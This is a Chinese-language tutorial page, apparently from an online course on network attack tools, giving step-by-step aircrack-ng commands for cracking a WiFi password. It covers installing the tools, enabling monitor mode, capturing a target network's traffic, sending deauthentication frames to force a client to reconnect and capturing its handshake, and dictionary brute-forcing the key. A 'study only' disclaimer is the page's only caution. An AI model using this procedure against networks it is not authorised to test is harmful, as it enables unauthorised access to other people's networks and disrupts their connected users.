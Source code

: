 ## 网络安全与攻击工具

本课程主要面对具有一定计算机基础和攻防兴趣的学员。课程主要介绍常用的网络安全工具等。

## 1. WIFI破解

> 请勿用于恶意攻击，仅限学习使用，否则后果自负

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi03.png)

### WIFI破解原理

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi04.png)

### 1.1 wifi破解工具下载和安装

#### Aircrack-ng

##### 下载

```
http://www.aircrack-ng.org/ 
http://www.aircrack-ng.org/downloads.html
wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
```

##### 安装

如果是linux-Ubuntu

```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
tar zxvf aircrack-ng-1.2-rc2.tar.gz
cd aircrack-ng-1.2-rc2
```

```
make

sudo make install
```

##### **kali-linux** 操作系统

**官方网站：**

[http://www.kali.org](http://www.kali.org/)

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A840-wifi01.png)

**中文论坛：**

[http://www.kali.org.cn](http://www.kali.org.cn/)

### 1.2 wifi 破解过程

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop
```

```
airmon-ng check kill
```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig
```

或者

```
iwconfig
```

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0
```

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng wlan0mon
```

**（5）. 专门监听目标wifi，抓取目标的数据包（始终运行）**

```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon

```

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

```
aireplay-ng -0 1 –a 目标wifi的mac -c 客户端的mac wlan0mon
```

攻击成功,airodump-ng捕获handshake ,此时可以ctrl+c终止airodump-ng抓包。

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi05.png)

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng -w 密码字典 捕获的cap文件
```

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```